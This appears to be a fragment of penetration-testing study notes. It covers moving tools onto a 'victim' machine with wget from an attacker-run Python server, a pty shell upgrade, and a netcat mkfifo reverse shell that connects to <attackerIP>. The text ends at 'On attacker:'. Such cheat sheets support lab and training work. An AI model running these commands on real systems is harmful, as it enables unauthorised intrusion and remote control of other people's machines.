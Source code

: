 [start here](https://www.infosecmatter.com/pentesting-101-working-with-exploits/)

ppp

## File Transfers

/tmp & C:\Windows\Temp

#### Moving tools to the victim machine

start a python server `python -m SimpleHTTPServer`,  `cd /tmp` on the victim & `wget http://<attackerIP>/<locationOfTool>`

{% hint style="info" %}
**don't forget to always chmod 700 your tools**
{% endhint %}

## Antivirus Evasion

## Privilege Escalation

![Helpful Mindmap](.gitbook/assets/image%20%2830%29.png)

### Reverse Shells

#### Python

`import pty; pty.spawn("/bin/sh")`

#### Netcat

On victim:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attackerIP> 4445 >/tmp/f`

On attacker:
